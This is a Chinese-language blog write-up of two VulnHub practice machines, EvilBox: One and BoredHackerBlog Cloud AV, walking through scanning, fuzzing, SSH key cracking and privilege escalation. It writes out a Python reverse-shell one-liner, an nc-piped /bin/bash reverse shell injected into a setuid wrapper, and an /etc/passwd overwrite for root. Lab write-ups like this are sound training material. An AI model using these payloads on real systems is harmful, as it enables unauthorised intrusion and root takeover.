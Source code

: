 ```yaml
---
title: "Vuln EvilBox: One & BoredHackerBlog_Cloud_AV"
subtitle: ""
date: 2024-12-12
draft: false
author: ""
authorLink: ""
description: ""
license: ""
images: []

tags: ["渗透"]
categories: ["靶场"]

featuredImage: ""
featuredImagePreview: ""

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: true
  # ...
mapbox:
  # ...
share:
  enable: true
  # ...
comment:
  enable: true
  # ...
library:
  css:
    # someCSS = "some.css"
    # 位于 "assets/"
    # 或者
    # someCSS = "https://cdn.example.com/some.css"
  js:
    # someJS = "some.js"
    # 位于 "assets/"
    # 或者
    # someJS = "https://cdn.example.com/some.js"
seo:
  images: []
  # ...
---
```


## EvilBox: One
### 靶场链接
https://www.vulnhub.com/entry/evilbox-one,736/

#### 日常扫描
![image.png](https://www.helloimg.com/i/2025/01/09/677f6bd101d98.png)
发现这玩意靶机（这个需要自己配置一下网卡）
nmap扫描端口
![image-1.png](https://www.helloimg.com/i/2025/01/09/677f6c1aa458a.png)
没有用，dis或者是dirb扫一下
![image-2.png](https://www.helloimg.com/i/2025/01/09/677f6c1be4db5.png)
发现这几个，一个一个点进去看一眼，http://192.168.64.4/secret/ 网页是纯白的，
![image-4.png](https://www.helloimg.com/i/2025/01/09/677f6c1b24285.png)
#### 爆破
扫一下尾缀发现真有.php，bp抓包看一下
![image-5.png](https://www.helloimg.com/i/2025/01/09/677f6c1b66d3d.png)
用fuzz爆破一下，
![image-6.png](https://www.helloimg.com/i/2025/01/09/677f6c1c9baf1.png)
发现
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
可能是ssh的用户，页面上去看一样是密码，gpt格式化一下
![image-7.png](https://www.helloimg.com/i/2025/01/09/677f6c20aea62.png)
john去爆破私钥
>python /usr/share/john/ssh2john.py id_rsa > hash
john hash

得到密码是unicorn
#### ssh提权
![image-8.png](https://www.helloimg.com/i/2025/01/09/677f6c1d07bbb.png)
ssh上去
![image-9.png](https://www.helloimg.com/i/2025/01/09/677f6c1d55f91.png)
发现/etc/passwd可以修改，直接openssl passwd -1生成密码，然后把root后面的x改了，还有一个方法可以用https://blog.csdn.net/weixin_46700042/article/details/108813878
linpeas过两天考完试再学学怎么用（）
 
## BoredHackerBlog_Cloud_AV
### 靶场链接
https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

#### 日常扫描
![BoredHackerBlog_Cloud_AV.png](https://www.helloimg.com/i/2025/01/09/677f70c3545a5.png)
发现靶机，nmap启动
![BoredHackerBlog_Cloud_AV1.png](https://www.helloimg.com/i/2025/01/09/677f70c2e5b89.png)
有个http服务页面，上去看一眼
#### sql注入/密码爆破
![BoredHackerBlog_Cloud_AV2.png](https://www.helloimg.com/i/2025/01/09/677f70c31c38b.png)
登陆框页面，sql注入/密码爆破都可以，当然了，身为密码手，直接弱密钥试试，password直接进去了（）
![BoredHackerBlog_Cloud_AV3.png](https://www.helloimg.com/i/2025/01/09/677f70c32479e.png)
#### 反弹shell
里面还有个框，试一下管道符拼接，没啥用，有python，直接反弹shell扔进去
>1|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

本地开nc监听一下
![BoredHackerBlog_Cloud_AV4.png](https://www.helloimg.com/i/2025/01/09/677f70c2ead2f.png)
有个.app和.sql，可能是账号密码什么的，直接拉取到本地
![BoredHackerBlog_Cloud_AV5.png](https://www.helloimg.com/i/2025/01/09/677f70c2b3a36.png)
![BoredHackerBlog_Cloud_AV6.png](https://www.helloimg.com/i/2025/01/09/677f70c524d88.png)
![BoredHackerBlog_Cloud_AV7.png](https://www.helloimg.com/i/2025/01/09/677f70c5da06d.png)
发现是密码，靶机有22端口，看看能不能ssh，尝试爆破后没有用
查了一下应该是suid提权（）
> find / -perm /4000 -type f 2>/dev/null

![BoredHackerBlog_Cloud_AV8.png](https://www.helloimg.com/i/2025/01/09/677f70c62d392.png)
发现scanner这个，刚才用过，可能还是在这里，进入文件夹，看一下权限
![BoredHackerBlog_Cloud_AV9.png](https://www.helloimg.com/i/2025/01/09/677f70c5eb945.png)
发现root了，甚至有个.c文件，看看
```
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```
我们需要注意的是ClamAV是一个linux的病毒扫描软件。freshclam相当于是一个更新clamav的病毒库的功能。同时对输入的参数进行的长度的限制，同时要求必须有参数的传入。这玩意参数会扔到system执行，那么反弹shell试试

>./update_cloudav "aasff | nc 192.168.64.3 5000 | /bin/bash | nc 192.168.64.3 6000"

连上去之后发现是root
![BoredHackerBlog_Cloud_AV10.png](https://www.helloimg.com/i/2025/01/09/677f70c6008ca.png)
![BoredHackerBlog_Cloud_AV11.png](https://www.helloimg.com/i/2025/01/09/677f70c6479df.png)